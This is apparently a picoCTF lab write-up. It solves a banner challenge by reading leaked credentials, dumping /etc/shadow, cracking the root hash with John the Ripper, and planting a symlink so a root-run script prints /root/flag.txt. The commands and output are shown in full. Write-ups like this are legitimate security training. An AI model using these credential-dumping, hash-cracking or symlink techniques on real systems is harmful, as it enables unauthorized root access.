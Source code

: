## Challege reads as follow 

Can you abuse the banner?
The server has been leaking some crucial information on 
tethys.picoctf.net 57019. Use the leaked information to get to the server.

To connect to the running application use 
nc tethys.picoctf.net 61514. From the above information abuse the machine and find the flag in the /root directory.

## let's connect with first server and obtain the leaking information 

upon connecting with leaking server, we got the following credentials:

## nc ethys.picoctf.net 57019

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234 

now connect with another server using the password , provided by leaking server : 

muneer1631-picoctf@webshell:~$ nc tethys.picoctf.net 54357
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234

What is the top cyber security conference in the world?
DEF CON

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ 

## Hey freaks, we're in now

## There are two hints, let's try with second trick first 😎 . First as the questions suggests  the flag is in root folder. 
let's check the permission of flag.txt 

__________________________________________________________________________________

player@challenge:/root$ ls -la 

ls -la 

total 16

drwxr-xr-x 1 root root    6 Mar  9 16:39 .

drwxr-xr-x 1 root root   29 Apr 17 10:17 ..

-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc

-rw-r--r-- 1 root root  148 Aug 17  2015 .profile

-rwx------ 1 root root   46 Mar  9 16:39 flag.txt

-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py

player@challenge:/root$  
____________________________________________________________________________________

As we can see, it you need root Privileges to read the file . 
As I said there are two hint above , I solved it in two ways. 

1. Crack the password of root  and enter as root to read the contents of the file 
2. use the Hint of symblink and following along the way to solve it. 

## Method-1 : crack the hash 

read users ( cat /etc/passwd)  and copy the root username and save it into a text file. 
______________________________________________________________________________
player@challenge:/root$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
_______________________________________________________________________________

Similary read the hash of passwords stored in /ect/shadow
player@challenge:~$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
___________________________________________________________________________________________________________________________

Use "unshadow" tool which merges password and shadow files into one, typically for cracking passwords. As 
you saved the username of root and hash of password, Take help of "unshadow" commnad to merge both files.

unshadow name.txt password.txt > passwords.txt

Now , you've merged file named as passwords. 

## Did you hear about John ?
NO, "John the Ripper is a powerful password cracking tool often used for security testing and analysis."

Provide the path where John (Already Installed in Kali Linux) and the password file 
_____________________________________________________________________________________________
┌──(user㉿kali)-[~/Desktop]
└─$ john /usr/sbin/ password 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*iloveyou         (root)*   
1g 0:00:00:01 DONE 2/3 (2024-04-16 21:07) 0.6211g/s 598.7p/s 598.7c/s 598.7C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
__________________________________________________________________________________________

Oh , you did it buddy. "iloveyou" is the password of root. Switch to root and read the contents of the file. 

# Mathod-2 : Symlink Attack

As we saw that you'll need to have root privileges to read the content and we cracked the hash and  entered as root. 
But this time, we're gonna use the **First Hint-Symlink**

See the following, we can find script.py let also read what this says

player@challenge:/root$ ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar  9 16:39 .
drwxr-xr-x 1 root root   41 May 16 07:36 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py

player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt**

**Note: We can see that everytime we connect back to server, it loads /home/player/banner**

--> Now , we'll use symlink here, 

## **Symlinks, or symbolic links, are a type of file system object that acts as a reference to another file or directory**

**creating a symlink like creating refrence not actual hard link , we'll create symbolik link for /root/flag.txt in the home directory of user.**

**So, when we connect back to sever it will load the banner which will be referrencing the /root/flag.txt and flag will be loaded.**

Let's first move or rename the banner in home directory of user

player@challenge:~$ mv banner hint   
mv banner hint
player@challenge:~$ ls
ls
hint  text

Now, let make symlink of flag using following command : 

player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  hint  text

We have made it, just exit and connect back to server, it will load the banner , which referrencing flag and you'll have flag.

muneer1631-picoctf@webshell:~$ nc tethys.picoctf.net 56152
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}

